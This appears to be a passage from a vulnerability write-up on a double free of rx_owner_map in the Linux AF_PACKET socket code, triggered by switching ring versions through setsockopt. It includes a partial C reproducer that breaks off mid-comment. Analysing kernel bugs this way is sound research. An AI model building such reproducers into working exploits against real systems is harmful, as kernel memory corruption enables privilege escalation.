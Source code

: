 With a test case in hand and some understanding of what is going wrong, we can check how
**rx_owner_map** ends up containing stale data:
* When calling *setsockopt* using TPACKET_V3, RX ring and setting *tp_block_nr*, pg_vec is
  allocated and **init_prb_bdqc** is called setting **prb_bdqc** union member.
* If the next call to *setsockopt*, setting *tp_block_nr* and *tp_frame_nr* as 0, **pg_vec** and
  **rx_owner_map** are released (or it would be prb_bdqc here, since it's an union?), since
  po->mapped is always 0 here (mmap wasn't called to map the buffer)
* Calling *setsockopt* using TPACKET_V2 passing *tp_block_nr* and *tp_frame_nr* as 0, the code goes
  directly to release the swapped **rx_owner_map** that was already released in the previous step.
* ***Double free***.

Using the test case as a starting point, I was able to create my own reproducer:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <linux/if_packet.h>

int sock;

struct ring {
	union {
		struct tpacket_req  req;
		struct tpacket_req3 req3;
	};
};

static void set_ver(int ver)
{
	if (setsockopt(sock, SOL_PACKET, PACKET_VERSION, &ver, sizeof(ver)) == -1) {
		perror("setsockopt");
		fprintf(stderr, "Cannot set sock to ver %d\n", ver + 1);
		exit(1);
	}
}

static void __v3_fill(struct ring *ring)
{
	ring->req3.tp_retire_blk_tov = 64;
	ring->req3.tp_sizeof_priv = 0;
	ring->req3.tp_feature_req_word = TP_FT_REQ_FILL_RXHASH;

	ring->req3.tp_block_size = getpagesize() << 2;
	ring->req3.tp_frame_size = TPACKET_ALIGNMENT << 7;
	ring->req3.tp_block_nr = 256;

	ring->req3.tp_frame_nr = ring->req3.tp_block_size /
				 ring->req3.tp_frame_size *
				 ring->req3.tp_block_nr;
}

static void setup_ring(int mess)
{
	struct ring ring;

	__v3_fill(&ring);

	/*
	 * First time we call setup_ring, using TPACKET_V3, we send the req3
	 * as populated by __v3_fill. In the next calls, we zero two members of
	 * the struct, simulating a 'close' of the socket. This makes afpacket
	 * module to free pg_vec.
	 *
```